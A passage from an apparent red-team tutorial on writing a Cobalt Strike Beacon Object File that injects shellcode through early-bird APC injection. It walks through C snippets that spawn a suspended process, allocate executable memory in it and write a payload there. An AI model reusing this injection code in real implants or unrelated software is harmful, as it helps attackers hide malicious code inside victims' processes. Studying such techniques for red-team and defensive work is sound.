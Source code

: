 ```c
// obtain SpawnTo value
char spawnTo[MAX_PATH_LENGTH];
BeaconGetSpawnTo(x86, spawnTo, MAX_PATH_LENGTH);

// CreateProcess in suspended state
BOOL success = KERNEL32$CreateProcessA(
  NULL,
  spawnTo,
  NULL,
  NULL,
  FALSE,
  CREATE_NO_WINDOW | CREATE_SUSPENDED,
  NULL,
  NULL,
  &si,
  &pi);
if (!success) {
  BeaconPrintf(CALLBACK_ERROR, "CreateProcessA failed.");
  return;
}
```

## Allocating and Copying Memory

Before we call `QueueUserAPC`, we need to allocate memory into the remote process and copy our shellcode into that allocation. For this I decided to go with the good ol' `VirtualAllocEx` and `WriteProcessMemory`.

```c
// allocate memory
LPVOID remoteBuffer = KERNEL32$VirtualAllocEx(
  pi.hProcess,
  NULL,
  dllLen,
  MEM_COMMIT,
  PAGE_EXECUTE_READWRITE);

if (remoteBuffer == NULL) {
  BeaconPrintf(CALLBACK_ERROR, "VirtualAllocEx failed.");
  return;
}

BeaconPrintf(CALLBACK_OUTPUT, "[+] Remote buffer at 0x%p", remoteBuffer);

// write memory
SIZE_T bytesWritten;
success = KERNEL32$WriteProcessMemory(
  pi.hProcess,
  remoteBuffer,
  dllPtr,
  dllLen,
  &bytesWritten);

if (!success) {
  BeaconPrintf(CALLBACK_ERROR, "WriteProcessMemory failed.");
  return;
}
```
